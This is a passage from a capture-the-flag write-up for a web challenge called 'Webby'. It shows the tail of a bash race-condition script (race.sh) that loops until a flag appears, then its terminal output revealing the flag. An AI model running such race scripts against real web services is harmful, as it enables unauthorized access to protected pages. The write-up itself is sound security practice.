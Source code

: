 ```bash
  for j in $(seq 1 5); do
    out="$(get_flag_once)"

    echo "$out" | grep -E 'ENO{.*}' -i && {
      echo "$out"
      exit 0
    }
  done

  wait 2>/dev/null
done
```

Let's run this!

```terminal
$ ./race.sh
<html>
        <head>
                <title>Webby: Flag</title>
        </head>
        <body>
                <h1>Webby: Flag</h1>
                <p>ENO{R4Ces_Ar3_3ver1Wher3_Y3ah!!}</p>
                <a href="/logout">Logout</a>
        </body>
</html>
```

There we have it! This challenge is now solved.
